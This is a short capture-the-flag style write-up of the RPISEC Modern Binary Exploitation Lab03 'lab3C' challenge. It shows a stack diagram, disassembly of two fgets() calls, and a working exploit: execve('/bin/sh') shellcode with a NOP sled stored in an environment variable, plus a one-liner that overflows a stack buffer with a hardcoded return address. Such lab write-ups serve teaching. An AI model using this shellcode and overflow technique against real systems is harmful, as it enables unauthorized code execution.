 ```yaml
---
title: "m0d3rn b1n4ry expl0it4ti0n Lab03 Shellcoding write-up"
author: A1phaZer0
layout: post
category: Write-ups
---
```


> **LAB3C:**

```bash
+===============+
|_____argv______|
|_____argc______|
|_____ret_______|
|____oldebp_____|<- ebp_main
|_____edi_______|
|_____ebx_______|<- esp + 0x60
|               |      ^
|               |      |
|               |  68 bytes
|               |      |
|_______________|      V
|_______________|<- esp + 0x1C
|               |
|               |
|_______________|
|_______________|
|_______________|<- esp
```


```bash
# First fgets(), takes name string into .bss segment.
 80487d4:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80487d8:	c7 44 24 04 00 01 00 	mov    DWORD PTR [esp+0x4],0x100
 80487df:	00 
 80487e0:	c7 04 24 40 9c 04 08 	mov    DWORD PTR [esp],0x8049c40
 80487e7:	e8 04 fe ff ff       	call   80485f0 <fgets@plt>
 
 24 .bss          00000084  08049c20  08049c20  00000c14  2**5
                  ALLOC
                  
# Second fgets(), takes password string into stack where we can do overflow.
 8048820:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048824:	c7 44 24 04 64 00 00 	mov    DWORD PTR [esp+0x4],0x64
 804882b:	00 
 804882c:	8d 44 24 1c          	lea    eax,[esp+0x1c]
 8048830:	89 04 24             	mov    DWORD PTR [esp],eax
 8048833:	e8 b8 fd ff ff       	call   80485f0 <fgets@plt>
```

Put payload in environment variable and get it's address.
```bash
$ export SHELLCODE=$(perl -e 'print "\x90" x 40 . "\xeb\x18\x5e\x31\xc0\x88\x46\x08\x89\x76\x09\x89\x46\x0d\x8d\x56\x0d\x8d\x4e\x09\x8d\x1e\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42"' )
```
Rock'n Roll
```bash
$ ( perl -e 'print "rpisec\x0a" . "A" x 80 . "\x19\xf8\xff\xbf\x0a"'; echo "whoami"; ) | ./lab3C
```
